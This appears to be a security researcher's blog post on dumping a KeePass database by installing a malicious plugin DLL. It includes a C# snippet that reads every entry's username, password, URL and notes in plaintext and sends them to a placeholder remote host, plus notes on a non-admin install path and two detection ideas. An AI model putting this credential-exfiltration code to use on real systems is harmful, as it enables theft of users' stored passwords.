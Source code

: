 # **Dumping KeePass**


### tl;dr

Using KeePass's extension feature it is very simple to dump the entire DB and extract it. Simply put, a single DLL on file disk will extract the entire DB in plaintext. While I focus on Windows, this technique can easily be ported to other OS's

Note: **I do not believe any of this is novel or new, just not widely used.** I spoke to a few friends and they were not aware of this particular TTP against KeePass. Of course after I completed this research I was made aware of the [KeeFarce Reborn](https://github.com/d3lb3/KeeFarceReborn/tree/main) repository. However, their tool uses the export function, which I explicitly avoided since it has been known to be used on other dumping tools.

### Introduction

Password Vaults continue to rise in popularity and KeePass is one of the more popular tools used. I have already taken a look at [1Passwords Chrome Extension](https://syntax-err0r.github.io/1Password_Extension_PostEx.html) and now wanted to look at a thick client on Windows. A lot of research has been put into KeePass such as [KeeThief](https://github.com/GhostPack/KeeThief) but I ultimately wanted a way to perform the extraction without injecting into the process.

I will detail one of the many methods/avenues I tried before ultimately landing on the "Easy Way". All the steps/information is for a default setup of KeePass. **I leave some steps and a full PoC out as it is worthwhile to go through everything yourself.** 

### Methodology/Failed Attempts

My initial goal was to be in a remote process context, scrape the memory for keepass.exe, and decrypt the credentials which I thought would be possible because ["KeePass uses the Windows DPAPI"](https://keepass.info/help/base/security.html). So I fired up dnSpy and began to debug the process. I set breakpoints on interestingly named functions like "Decrypt", "ReadData", etc. However I quickly noticed under the hood it was not the traditional DPAPI that can be used on a users entire logon context like Chrome used to use. Instead it was using [SystemFunction041](https://learn.microsoft.com/en-us/windows/win32/api/ntsecapi/nf-ntsecapi-rtldecryptmemory).

![](assets/system041.png)

Additionally, when calling that API it takes a Flag to identify the scope of the encryption/decryption and ties it to the process instead of the logon session. 

![](assets/system_scope.png)

With this in mind I thought about several ideas such as patching the process to use the LOGON flag instead of the PROCESS flag, patching the exe on disk to do the same, etc. but all ideas involved breaking the exe certificate or injection in some form, which is what I originally wanted to avoid. My last ditch effort on this was to duplicate the KeePass Process Token and attempt the RTLDecryptMemory function however this also failed, and after speaking to a friend much more versed on Windows Internals I decided to abandon this path. 

### Easy Way

While on KeePass's website I noticed the [plugins](https://keepass.info/plugins.html) page. This felt like it would be very similar to [Chrome Extensions](Silently_Install_Chrome_Extension.md). After clicking on a few projects and reviewing the documentation it was clear these were all just DLL's that use the KeePass.exe C# Methods [under the hood](https://keepass.info/help/v2_dev/plg_index.html). To install a plugin all you need to do is copy the DLL to the "/plugins" directory. So the plan forward was clear - create a KeePass plugin that leverages the same decryption methods KeePass use and since we are in the same process we will be able to call RTLDecryptMemory with the same flags (or could it be even easier). With a breakpoint on the SystemFunction041 I inspected the callstack and noticed a call from "OnEntryCopyPassword" that gets called when you right click on an entry and "copy Password".

![](assets/on_entry_copy.png)

Looking at that function you will see a "GetSafe" function being called for "Password".

![](assets/getsafe.png)

Working backwards we see the String is a part of a "PwEntry". Continuing to work backwards you will eventually see PwEntry is essentially an array of the entries within the open Database. Using their same code we can effectively use KeePass as a reference and dump entries. I provide a sample code below but you will need to work on getting the proper methods/variables called. This then just quickly sends the information to a remote host. 

```
    foreach (var entry in entries)
    {
        var title = entry.Strings.GetSafe("Title").ReadString();
        var notes = entry.Strings.GetSafe("Notes").ReadString();
        var url = entry.Strings.GetSafe("URL").ReadString();
        var username = entry.Strings.GetSafe("UserName").ReadString();
        var password=entry.Strings.GetSafe("Password").ReadString();
        string query = string.Format(
    "title={0}&notes={1}&url={2}&username={3}&password={4}",
    HttpUtility.UrlEncode(title),
    HttpUtility.UrlEncode(notes),
    HttpUtility.UrlEncode(url),
    HttpUtility.UrlEncode(username),
    HttpUtility.UrlEncode(password)
);

        string fullUrl = "http://127.0.0.1:8080/?" + query;

        using (WebClient client = new WebClient())
        {
            client.DownloadString(fullUrl);
        }
    }
```

![](assets/dbcreds.png)

### Other Interesting Tidbits

One of the drawbacks of this method is if KeePass is installed in Program Files it does require Local Admin to install. Interestingly though if a user has already installed a plugin using the native PLGX extension it is possible to hijack this and install it from a non local administrator [Source](https://blog.quarkslab.com/post-exploitation-abusing-the-keepass-plugin-cache.html).

In addition I noticed once a user decrypts the password in KeePass, the password is stored in plaintext which introduces the possibility to just scrape memory. 

![](assets/findmepassword.png)

### Detections

- FileWrite to the KeePass extensions folder by anomalous processes
- Low prevalence (or any) extensions
